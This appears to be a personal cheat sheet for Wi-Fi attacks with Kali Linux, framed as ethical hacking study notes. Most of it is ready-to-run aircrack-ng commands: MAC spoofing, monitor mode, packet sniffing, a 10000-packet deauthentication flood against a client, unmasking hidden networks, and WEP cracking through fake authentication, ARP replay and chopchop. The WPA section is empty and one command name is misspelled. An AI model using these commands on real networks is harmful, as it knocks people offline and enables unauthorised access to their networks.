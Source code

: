 # Ethical Hacking With Kali

## Change MAC address
iwconfig to get wireless adapter name

'''
ifconfig wlan0 down

macchanger --random wlan0

ifconfig wlan0 up
'''

## Enable monitor mode
'''
airmon-ng start wlan0
airmon-ng stop wlan0mon

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up

ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
'''
## Sniffing
'''
airodump-ng wlan0
'''
BSSID = MAC of accesspoint
PWR = "how far away is it"
Data = nr of useful packets that has been sniffed
/s = nr of packets collected in the last 10 sec
CH = Broadcast channel
MB = Maximum speed
ENC = Encryption used
CIPHER = Cipher used
AUTH = Auth required for connection
ESSID = Name

### Sniffing specific BSSID
'''
airodump-ng --channel xx --bssid macOfTargetBSSID --write fileName wlan0


## Deauthentication attacks
'''
aireplay-ng --deauth 10000 -a apMAC -c clientToAttackMAC wlan0
'''

## Find hidden ESSID
'''
airodump-ng --bssid targetApMAC --channel targetApChannel wlan0
'''
keep it running and deauth a client from the target
'''
aireplay-ng --deauth 4 -a apMAC -c clientToAttackMAC wlan0
'''
when it reconnects we will capture the networkname in airodump-ng


## Cracking WEP
'''
airodump-ng --bssid targetApMAC --channel targetApChannel --write captureTargetAP wlan0
'''
At the same time run:
'''
aircrac-ng captureTargetAP.cap
'''

If the activity is too low increase it by:
### FakeAuth to increase traffic
First option = fakeAuth then ARP request replay
'''
airodump-ng --bssid targetApMAC --channel targetApChannel --write captureTargetAP wlan0

aireplay-ng --fakeauth 0 -a targetApMAC -h attackingWifiCardMAC wlan0

aireplay-ng --arpreplay -b targetApMAC -h attackingWifiCardMAC wlan0
'''
Second option = fakeAuth then Korek ChopChop
'''
airodump-ng --bssid targetApMAC --channel targetApChannel --write captureTargetAP wlan0

aireplay-ng --fakeauth 0 -a targetApMAC -h attackingWifiCardMAC wlan0

aireplay-ng --chopchop -b targetApMAC -h attackingWifiCardMAC wlan0
''' 
Third option
Fragmentation attack...

## WPA Cracking


